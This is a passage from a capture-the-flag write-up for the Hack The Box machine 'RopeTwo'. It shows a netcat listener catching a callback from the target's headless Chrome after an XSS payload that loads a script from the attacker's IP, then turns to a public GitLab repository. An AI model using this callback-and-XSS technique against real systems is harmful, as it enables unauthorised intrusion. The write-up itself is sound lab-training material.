 ```console?comments=true
< Date: Fri, 05 Feb 2021 03:20:48 GMT
<
* Closing connection 0
Sent
```

Submitting the above shows an incoming connection from the server (10.10.10.196) to our [netcat](http://netcat.sourceforge.net/) listener. Netcat here is simply being used to listen for an incoming connection on port 8000 (on any local interface) and verbosely print the output. The POST data above had an embedded URL to our IP address on port 8000, and we can see the incoming HTTP request to this from the server itself. We could set up Apache or nginx and watch the access logs too, but this is a handy one-liner.
```console?comments=true
kali@kali:~/htb/ropetwo$ nc -lvnp 8000
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 10.10.10.196.
Ncat: Connection from 10.10.10.196:49188.
GET /test.js HTTP/1.1
Host: 10.10.16.173:8000
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4157.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US

^C
```

Great, so we have an XSS (Cross Site Scripting vulnerability that we can exploit, and judging by the User-Agent header on the incoming request, a headless Chrome instance will render the HTML that we give it, and request scripts within it for execution after the DOM has loaded. At this stage, we will assume that those scripts will be executed.


## TCP/5000 - Gitlab

From the link above, we can see that the public v8 project is hosted on the server. Gitlab itself requires authentication, but if we follow the direct link to the repository from the Python web server, we can access the source code because it is set to allow public access.

There doesn't appear to be anything else worthwhile accessible in the Gitlab instance at this stage - the user that made the commit matches the creator of the system, but we cannot find any other repositories, snippets, buildchains, triggers or similar that may yield additional information. We *can* see that a commit has been added to the HEAD of the repository. So, we should clone the repository for analysis of the source code. It looks promising, but let's check the other ports before following Alice down into this rabbit hole of code analysis and possible disillusionment.


## TCP/8060 - nginx
